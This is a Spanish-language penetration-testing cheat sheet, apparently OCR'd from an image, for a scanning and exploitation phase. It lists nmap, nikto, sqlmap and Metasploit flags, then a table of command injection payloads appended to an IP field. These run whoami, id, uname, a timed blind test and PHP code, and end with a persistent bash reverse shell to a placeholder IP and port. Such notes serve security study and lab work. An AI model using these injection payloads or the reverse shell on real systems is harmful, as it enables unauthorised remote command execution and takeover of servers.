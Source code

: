 ## Fase 3: Escaneo y Explotación

| Tarea             | Herramienta | Función y Desglose de Opciones                 |
|-------------------|-------------|-----------------------------------------------|
| Escaneo Profundo  | nmap        | `-sS`, `-sV`, `-O`, `-p-`, `-A`               |
| Vulnerabilidades Web | nikto      | `-h`: especifica host                         |
| Inyección SQL     | sqlmap      | `-u`, `--dbs`, `--batch`                       |
| Explotación       | msfconsole  | `search`, `use`, `set RHOSTS`, `exploit`      |

---

## Glosario de Opciones (Flags/Parámetros) Usadas en Fase 3

### Para nmap (Network Mapper)
- `-sS` → SYN Scan (escaneo sigiloso, rápido, no completa conexión TCP).
- `-sV` → Detección de versión de servicios.
- `-O` → Detección del sistema operativo.
- `-p-` → Escanea todos puertos (1-65535).
- `-A` → Escaneo agresivo (combina `-sV`, `-O`, traceroute, scripts).

### Para nikto (Escáner web)
- `-h [URL/IP]` → Host objetivo a escanear.

### Para sqlmap (Inyección SQL)
- `-u "[URL]"` → URL objetivo para prueba.
- `--dbs` → Enumera bases de datos tras vulnerabilidad confirmada.
- `--batch` → Modo no interactivo (acepta opciones por defecto).

### Para msfconsole (Metasploit)
- `search [término]` → Buscar módulos.
- `use [ruta_módulo]` → Seleccionar módulo.
- `set RHOSTS [IP]` → Establecer IP objetivo.
- `exploit` → Ejecutar módulo.

---

## Payloads de Inyección de Comandos

| Payload de Ejemplo                                            | Función                                                        |
|---------------------------------------------------------------|----------------------------------------------------------------|
| `127.0.0.1; whoami`                                           | Ver usuario del proceso                                        |
| `127.0.0.1; uname -a`                                         | Ver info sistema                                              |
| `127.0.0.1 && id`                                             | Ejecuta ver usuario/grupo si anterior tuvo éxito             |
| `127.0.0.1; sleep 4 && echo "test"`                           | Blind injection por tiempo                                     |
| `127.0.0.1; php -r 'echo "Max execution time: " . ini_get("max_execution_time");'` | Ejecuta código PHP para ver tiempo máximo de ejecución de scripts |
| `127.0.0.1; nohup bash -c 'bash -i >& /dev/tcp/IP/PUERTO 0>&1' &` | Reverse shell persistente en segundo plano                    |

---